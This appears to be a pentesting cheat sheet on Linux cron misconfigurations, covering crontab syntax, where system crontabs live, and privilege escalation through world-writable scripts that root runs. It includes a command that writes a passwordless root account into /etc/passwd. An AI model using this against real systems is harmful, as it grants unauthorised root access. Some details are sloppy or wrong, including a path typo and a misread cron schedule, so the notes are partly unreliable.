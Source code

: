 # CronTab MissConfigurations

A crontab file contains instructions to the cron daemon of the general form: "run this command at this time on this date".

Each User own a crontab file.

### Table of Contents

- [Crontab syntax](#crontab-syntax)
- [Recognition](#recognition)
- [Usage](#usage)
- [Privilege Escalation](#privilege-escalation)
- [Docu](#documentation)

## Crontab syntax

```crontab
* * * * * <command to be executed>
- - - - -
| | | | |
| | | | ----- Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)
| | | ------- Month (1 - 12)
| | --------- Day (1 - 31)
| ----------- Hour (0 - 23)
------------- Minute (0 - 59)
```

In system-wide crontabs, you can specify the user.

```crontab
* * * * * <username> <command to be executed>
```

## Recognition

List and verify every crontab call to find a vulnerability:

- current cron for the user:

  ```bash
  $>crontab -l
  ```

- system-wide crontab

  /etc/cron.d
  /ect/cron.hourly
  /etc/cron.daily
  /etc/cron.weekly
  /etc/cron.monthly

## Usage

By default, Cron runs as root when executing /etc/crontab, so any commands or scripts that are called by the crontab will also run as root.

#### Call a script write /etc/cron.\*

```bash
01 * * * * root run-parts /etc/cron.hourly
```

## Privilege Escalation

### Two way to escalade privilege with CronTab

#### Miss protected script

/etc/cron call a script miss protected (every user can edit it, and make their command executable by the root)

```bash
3 * * * * cd /path/to/script.sh

# every 3 min the script is launch by root
$>ls -la /path/to/script.sh
-rw-rw-rw- 1 root root 11833 Aug 30  2015
#every one can modify it
$>echo '“gottie::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd ' > /path/to/script.sh
#next call to the script, gottie is now a root with no passwd to login
```

#### Vulnerable Script

If you can't write into the script maybe you can find a vulnerablily inside it!

### Documentation

- [Man crontab](https://linux.die.net/man/5/crontab)
- [Crontab privilege Esacalad](https://medium.com/swlh/privilege-escalation-via-cron-812a9da9cf1a)

---

[**:arrow_right_hook: Back home**](/README.md)
